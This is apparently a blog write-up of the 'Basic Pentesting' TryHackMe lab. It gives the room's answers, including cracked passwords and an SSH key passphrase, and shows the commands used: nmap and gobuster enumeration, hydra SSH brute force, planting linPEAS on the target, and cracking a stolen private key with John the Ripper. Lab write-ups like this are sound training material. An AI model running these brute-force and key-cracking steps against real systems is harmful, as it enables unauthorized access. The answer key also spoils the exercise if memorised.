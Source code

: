 ```yaml
---
layout: post
title: Basic Pentesting
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap, gobuster, enum4linux, hydra, linPEAS, JohnTheRipper]
---
```

## Task 1 Web App Testing and Privilege Escalation
In these set of tasks you'll learn the following:
 - brute forcing
 - hash cracking
 - service enumeration
 - Linux Enumeration

### Questions:

1. What is the name of the hidden directory on the web server(enter name without /)?
```
development
```
2. What is the username?
```
jan
```
3. What is the password?
```
armando
```
4. What service do you use to access the server(answer in abbreviation in all caps)?
```
SSH
```
5. What is the name of the other user you found(all lower case)?
```
kay
```
6. What is the final password you obtain?
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

### MyWalk:

Beginning with an nmap scan, and save the results on nmap/initial for future reference:

```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46
```

Now I'll enumerate any directories available:

```bash
gobuster dir --url http://10.10.40.46 -w //usr/share/wordlists/dirb/common.txt | tee gobuster.txt
```
<span style="color:green;">Q1 done</span>

http://10.10.40.46/development give us 2 files referencing development messages between two users.

Lets use enum4linux:

```bash
/usr/share/enum4linux/enum4linux.pl -a 10.10.40.46 | tee enum4linux.log
```

Users 'kay' and 'jan' found.

<span style="color:green;">Q2 & Q5 done</span>

Now I try to get the 'jan' password using brute force, and get answer to Q3:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.40.46 -t 4

```
jan:armando <span style="color:green;">Q3 done</span>

Now I'll try to login with shh credentials:
```bash
ssh jan@10.10.40.46
```
After sucessfull connection <span style="color:green;">Q4 done</span>. We will try some commands now:

```bash
jan@basic2:~$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Apr 23 2018 .
drwxr-xr-x 4 root root 4096 Apr 19 2018 ..
-rw------- 1 root jan 47 Apr 23 2018 .lesshst
jan@basic2:~$ pwd
/home/jan
jan@basic2:~$ cat .lesshst
cat: .lesshst: Permission denied
jan@basic2:~$ cat /etc/passd
cat: /etc/passd: No such file or directory
jan@basic2:~$ sudo -l
[sudo] password for jan:
Sorry, user jan may not run sudo on basic2.
jan@basic2:~$ cd ..
jan@basic2:/home$ cd kay
jan@basic2:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied
jan@basic2:/home/kay$ cat .viminfo
cat: .viminfo: Permission denied
```
Nothing seems to work, so at this point we should try running Priviledge Escalation Awsome Script:

[](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

After install the linpeas.sh script in our directory /opt/linPEAS we we'll run the command:

```bash
scp /opt/linPEAS/linpeas.sh jan@10.10.40.46:/dev/shm
```
Checking the target:

```bash
jan@basic2:~$ cd /dev/shm
jan@basic2:/dev/shm$ ls
linpeas.sh
```
Run it (on target):

```bash
./linpeas.sh | tee linlog.txt
```
Found a id_rsa key. Past it in a file using nano and mark it as read only by us.
Now lets connect with the key of 'kay' user:

```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```
At this point an error occurred because the key format listed in the linpeas result was incorrect, so lets extract it directly from the directory: /home/kay/.ssh/id_rsa
After trying to connect again it asks for a paraphrase so we need to use johntheripper to find the pass.
First I need to prepare the key to use in johntheripper, with the ssh2john.py script, and save it in the forjohn.txt:

```bash
/usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt
```

Now run john with the key against the rockyou.txt:

```bash
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
we can see the paraphrase is 'beeswax'
Lets try to login again as kay.

```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```

Entering the paraphrase password 'beeswax' and success!  
Now is possible to read the pass.bak file and  
<span style="color:green;">Q6 done</span>

### Tools:
- nmap
- gobuster
- enum4linux
- hydra
- linPEAS
- johntheripper